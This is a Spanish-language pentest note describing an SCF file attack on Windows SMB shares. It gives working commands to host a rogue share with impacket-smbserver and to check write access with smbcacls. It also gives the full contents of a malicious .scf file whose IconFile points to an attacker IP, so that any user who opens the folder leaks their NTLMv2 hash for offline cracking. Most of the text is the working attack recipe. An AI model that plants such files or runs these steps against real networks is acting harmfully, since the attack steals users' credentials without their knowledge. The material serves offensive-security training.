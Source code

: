 **SCF Malicious File Attack**

> 🚨 **Es necesario tener capacidad de escritura en un recurso compartido remoto para llevar a cabo el ataque.** 🚨

Cuando tenemos un recurso compartido montado y contamos con permisos de escritura en una carpeta (verificado previamente con la herramienta `smbcacls`), podemos crear un archivo malicioso con extensión `.scf`. Este archivo, sin interacción del usuario, nos permitirá obtener el hash NTLMv2 de la cuenta que interactúe con él al simplemente acceder al directorio donde se encuentra el archivo. 

Los pasos para llevar a cabo el ataque son los siguientes:

1. **Compartir un recurso utilizando impacket-smbserver:**

   Utilizamos la herramienta **impacket-smbserver** para compartir un recurso a nivel de la red con el nombre `smbFolder`:
   ```
   impacket-smbserver smbFolder $(pwd) -smb2support
   ```

2. **Verificar permisos de escritura en la carpeta:**

   Comprobamos si tenemos permisos de escritura en el recurso con `smbcacls`. Si tenemos acceso, podemos proceder a la siguiente etapa.
   ```
   smbcacls "//10.10.10.103/Department Shares" Users/Public | grep "Everyone"
   ```

3. **Crear el archivo malicioso .scf:**

   Creamos el archivo `.scf` en la ubicación donde tenemos acceso de escritura. El archivo tendrá la siguiente estructura:
   ```
   [Shell]
   Command=2
   IconFile=\\10.10.14.21\smbFolder\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

4. **Resultados:**

   Una vez guardado el archivo, al ser cargado por el usuario, se disparará el ataque. Esto nos permitirá obtener el hash NTLMv2 del usuario de forma remota sin necesidad de interacción directa. Este hash puede ser luego crackeado por fuerza bruta de forma offline.
